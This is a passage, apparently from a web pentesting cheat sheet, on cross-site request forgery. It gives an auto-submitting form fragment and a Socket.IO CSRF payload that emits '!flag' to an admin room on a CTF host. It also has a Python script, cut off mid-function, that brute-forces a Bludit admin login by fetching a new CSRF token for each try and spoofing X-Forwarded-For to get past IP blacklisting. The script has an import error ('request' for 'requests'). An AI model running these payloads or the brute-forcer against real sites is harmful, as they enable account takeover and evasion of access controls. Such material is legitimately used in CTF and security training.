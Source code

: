 ```html
        document.getElementById("form").submit()
      }
    }
  </script>
</body>
```

### CSRF with Socket.IO

```html

<script>
  let socket = io("http://six.jh2i.com:50022/test")

  const username = "admin"

  socket.on("connect", () => {
    console.log("connected!")
    socket.emit("join", {
      room: username,
    })
    socket.emit("my_room_event", {
      data: "!flag",
      room: username,
    })
  })
</script>
```

## CSRF Login Brute Force

The code can be used to Brut Force a login form using a CSRF token (It's also using the header X-Forwarded-For to try to bypass a possible IP blacklisting):

```python
import request
import re
import random

URL = "http://10.10.10.191/admin/"
PROXY = { "http": "127.0.0.1:8080"}
SESSION_COOKIE_NAME = "BLUDIT-KEY"
USER = "fergus"
PASS_LIST="./words"

def init_session():
    #Return CSRF + Session (cookie)
    r = requests.get(URL)
    csrf = re.search(r'input type="hidden" id="jstokenCSRF" name="tokenCSRF" value="([a-zA-Z0-9]*)"', r.text)
    csrf = csrf.group(1)
    session_cookie = r.cookies.get(SESSION_COOKIE_NAME)
    return csrf, session_cookie

def login(user, password):
    print(f"{user}:{password}")
    csrf, cookie = init_session()
    cookies = {SESSION_COOKIE_NAME: cookie}
    data = {
        "tokenCSRF": csrf,
        "username": user,
        "password": password,
        "save": ""
    }
```